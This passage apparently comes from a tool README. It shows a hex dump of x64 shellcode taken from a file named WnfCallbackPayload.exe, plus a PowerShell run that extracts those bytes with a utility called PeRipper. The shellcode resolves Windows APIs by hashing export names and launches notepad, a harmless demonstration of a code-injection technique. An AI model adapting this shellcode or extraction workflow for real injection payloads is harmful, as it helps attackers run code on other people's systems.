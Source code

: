 ```
    0000000000001040 | 44 8B C9 0F BE 0A C1 C8-0D 80 F9 60 7E 03 83 C0 | D.É...AE ..ù`~..A
    0000000000001050 | E0 03 C1 48 FF C2 49 83-E9 01 75 E7 3D 5B BC 4A | à.AHÿAI. é.uç=[.J
    0000000000001060 | 6A 74 10 4D 8B 52 10 49-83 EA 10 49 39 5A 30 75 | jt.M.R.I .ê.I9Z0u
    0000000000001070 | BF EB 04 49 8B 72 30 B8-4D 5A 00 00 66 39 06 0F | ¿ë.I.r0, MZ..f9..
    0000000000001080 | 85 DA 00 00 00 8B 46 3C-81 3C 30 50 45 00 00 0F | .U....F< .<0PE...
    0000000000001090 | 85 CA 00 00 00 0F B7 4C-30 18 BA 0B 02 00 00 66 | .E....·L 0.º....f
    00000000000010A0 | 3B CA 75 09 8B 8C 30 88-00 00 00 EB 12 BA 0B 01 | ;Eu...0. ...ë.º..
    00000000000010B0 | 00 00 66 3B CA 0F 85 A4-00 00 00 8B 4C 30 78 48 | ..f;E.. ....L0xH
    00000000000010C0 | 89 6C 24 40 44 8B D3 48-89 7C 24 48 4C 89 74 24 | .l$@D.OH .|$HL.t$
    00000000000010D0 | 50 8B C1 48 03 C6 8B 68-1C 44 8B 58 20 48 03 EE | P.AH.Æ.h .D.X.H.î
    00000000000010E0 | 44 8B 70 24 4C 03 DE 8B-78 18 4C 03 F6 85 FF 74 | D.p$L._. x.L.ö.ÿt
    00000000000010F0 | 5F 41 8B 13 44 8B C3 48-03 D6 38 1A 74 0B 66 90 | _A..D.AH .Ö8.t.f.
    0000000000001100 | 41 FF C0 41 38 1C 10 75-F7 8B CB 45 85 C0 74 23 | AÿAA8..u ÷.EE.At#
    0000000000001110 | 45 8B C8 0F BE 02 C1 C9-0D 3C 60 7E 03 83 C1 E0 | E.E...AÉ .<`~..Aà
    0000000000001120 | 03 C8 48 FF C2 49 83 E9-01 75 E8 81 F9 68 F6 88 | .EHÿAI.é .uè.ùhö.
    0000000000001130 | 0D 74 0E 41 FF C2 49 83-C3 04 44 3B D7 72 B2 EB | .t.AÿAI. A.D;xr.ë
    0000000000001140 | 0F 41 8B C2 41 0F BF 0C-46 8B 5C 8D 00 48 03 DE | .A.AA.¿. F.\..H._
    0000000000001150 | 4C 8B 74 24 50 48 8B 7C-24 48 48 8B 6C 24 40 48 | L.t$PH.| $HH.l$@H
    0000000000001160 | B8 6E 6F 74 65 70 61 64-00 48 8D 4C 24 20 BA 05 | ,notepad .H.L$.º.
    0000000000001170 | 00 00 00 48 89 44 24 20-FF D3 48 8B 5C 24 58 48 | ...H.D$. ÿOH.\$XH
    0000000000001180 | 83 C4 30 5E C3                                  | .Ä0^A

[*] Done.
```

Using these information, we can get shellcode bytes as follows:

```
PS C:\Dev> .\PeRipper.exe -p .\WnfCallbackPayload.exe -v 0x1000 -s 0x185 -e

[*] Raw Data Size : 3072 bytes
[*] Architecture  : AMD64
[*] Header Size   : 0x400 bytes
[*] VirtualAddress (0x00001000) is in .text section.
[*] Export 0x185 bytes raw data to C:\Dev\bytes_from_module.bin.
[*] Done.

PS C:\Dev> dir .\bytes_from_module.bin


    Directory: C:\Dev


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/1/2023   4:11 AM            389 bytes_from_module.bin
```